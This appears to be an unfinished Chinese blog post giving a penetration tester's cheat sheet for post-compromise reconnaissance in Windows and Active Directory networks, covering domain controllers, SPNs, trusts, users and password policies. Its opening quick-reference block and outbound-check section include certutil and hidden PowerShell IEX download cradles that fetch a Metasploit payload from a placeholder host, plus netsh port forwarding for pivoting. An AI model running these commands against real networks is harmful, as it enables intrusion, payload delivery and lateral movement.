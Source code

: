 ```yaml
---
title: Windows漫游
author: Admin
date: 2020-07-04 15:39:00 +0800
categories: [渗透测试, 内网]
tags: [MSF, Windows, Active Directory]
---
```


# 开宗明义
本篇文章不讲原理，仅介绍利用方式。

难记命令速查表

```shell
# 信息收集
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24		# netbios扫描
setspn -T domain -Q */*		# spn扫描
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com		# 定位域控
nltest /domain_trusts		# 域信任
type C:\Windows\system32\drivers\etc\hosts		# hosts信息

#端口转发
netsh interface portproxy add v4tov4 listenport=80 connectport=445 connectaddress=192.168.1.1 protocol=tcp		# 本机监听80端口，转发192.168.1.1:445流量


# 文件下载
cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.exe
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://ip:port/a.exe'))"
```

# 信息收集
当打下某点后，应该进行以下信息收集：

1. 网络架构
2. 敏感信息

## 网络架构

### 是否出网

```shell
ping qq.com		# 检测DNS是否解析，ICMP流量是否出网。
certutil -urlcache -split -f http://ip:port/msf.exe		# TCP、HTTP流量是否出网
nslookup qq.com 8.8.8.8		# UDP、DNS流量是否出网
```

### 网卡情况

判断是否多网卡

```shell
ipconfig /all
```

### 路由表

多网卡流量走向等信息

```shell
route print
```

### 端口信息

查看本机监听端口，以及其他主器与本机链接情况。

```shell
netstat -ao
```
常用参数：

* -a 显示全部
* -n 显示具体IP，不加显示hostname
* -o 显示PID

详细文档：[docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat)

### arp表

列当前子网存活

```shell
arp -a
```

### 本机hosts信息

某些VPN会写该文件

```shell
type C:\Windows\system32\drivers\etc\hosts
```

### DNS缓存

返回结果过长可以重定向到文件。

```shell
ipconfig /displaydns
```

### DNS域传送
```shell
nslookup
> server dns.domain.com
> ls domain.com
```

### 是否在域
```shell
net view		# 查询域列表
net view /domain[:domainname]		# 不带选项会显示当前域或工作组的计算器列表
net config workstation		# 当前登陆域

# 定位域控制器
net group "domain controllers" /domain
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com
net time /domain
```

### SPN查询

服务主体名称（`SPN: Service Principal Names`），当服务加入域时会自动注册。通过LDAP协议查询该信息，快速梳理运行重要服务的主机。

```
setspn -T domain -Q */*		# 不加 -T 参数查询当前域，普通域用户权限
```

### 域信任

查看域之间信任关系。

```shell
nltest /domain_trusts
```

### netbios扫描

获取主机名信息，以及定位找到多网卡主机。

```shell
# nmap
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24

# nextnet
nextnet 192.168.0.0/12

# msf
use auxiliary/scanner/netbios/nbname
```
> nextnet: [github.com/hdm/nextnet](https://github.com/hdm/nextnet)

### 路由跟踪

```shell
tracert ip
```

### 全端口扫描器推荐

Goby: [gobies.org](https://gobies.org/)

## 敏感信息

### 用户
```shell
net user		# 全部用户
query session		# 用户登陆情况

net user /domain		# 查询域用户
net group /domain		# 查询工作组
net group "domain admins" /domain		# 域管
```

### 配置信息

```shell
set		# 本地环境变量
net accounts		# 本地密码策略
net accounts /domain		# 域密码策略
https://wh0ale.github.io/2018/12/19/2018-12-19-%E5%9F%9F%E6%B8%97%E9%80%8F/
```

----
咕咕咕...
